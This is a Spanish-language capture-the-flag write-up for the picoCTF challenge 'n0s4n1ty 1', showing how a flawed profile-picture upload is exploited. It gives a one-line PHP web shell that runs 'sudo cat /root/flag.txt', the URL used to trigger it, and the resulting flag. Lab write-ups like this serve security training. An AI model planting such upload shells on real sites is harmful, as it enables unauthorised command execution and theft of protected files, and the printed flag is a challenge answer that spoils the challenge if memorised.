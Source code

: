 ## Reto: n0s4n1ty 1
### Descripción
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:50122/)!

### Solución
1. Ingresamos al sitio web
![Captura1](Capturas/Captura1.png)

2. Debemos subir un archivo `php`, así que creamos uno llamada shell y dentro de él hacemos un código con el podamos acceder a la bandera `x.php`
```php
<?php echo exec("sudo cat /root/flag.txt");?>
```

3. Subimos el archivo y accedemos a él modificando el link del sitio
```http
http://standard-pizzas.picoctf.net:50122/uploads/x.php
```

Y obtenemos la bandera:
```flag
picoCTF{wh47_c4n_u_d0_wPHP_d698d800}
```
### Notas adicionales
### Referencias

